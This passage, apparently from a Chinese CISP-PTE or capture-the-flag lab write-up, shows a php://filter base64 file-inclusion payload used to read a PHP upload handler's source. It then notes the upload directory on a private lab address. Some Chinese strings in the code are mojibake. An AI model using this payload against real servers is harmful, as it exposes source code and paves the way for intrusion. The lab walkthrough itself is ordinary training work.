 ```
$replace['order_list'] = $order_list;
?>
```
结果一点有用的都没有，出题人让我们浪费时间的水平真是一流

既然这没用的话，我们好像还有一个上传文件界面的源码没看

archive=php://filter/read=convert.base64-encode/resource=/var/www/html/PIzABXDg/model/order_upload.php

```
<?php
$operates['upload'] = 'ä¸ä¼ æ¡£æ¡';
$target_dir = "CISP-PTE-1413/";
$info = '';

if(isset($_POST["submit"])){
	$target_file = $target_dir . basename($_FILES[fileToUpload]["name"]);
$uploadOK = 1;
$fileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
if(file_exists($target_file)){
	$info="æä»¶å·²ç»å­å¨";
	$uploadOK = 0;
}
if($fileType != "pdf"){
	$info = "åªåä¸ä¼ PDFæä»¶";
	$uploadOK = 0;
}
if($fileType != "pdf"){
	$info = "åªåè®¸ä¸ä¼ pdfæä»¶";
	$uploadOK = 0;
}
if($uploadOK == 0){
}else{
	if(move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)){
		$info = basename($_FILES["fileToUpload"]["name"])."ä¸ä¼ æå";
	}else{
		$info = "ä¸ä¼ æä»¶æ¶åçéè¯¯";
	}
}
}
$main_tpl = "order_upload.htm";
$replace['{info}'] = $info;
?>
```
okok，有东西了，发现上传地址为

CISP-PTE-1413/

访问一下http://192.168.216.128/CISP-PTE-1413/

![image](https://github.com/user-attachments/assets/858d1f0b-1656-4e14-8aab-0cc574a9ea92)
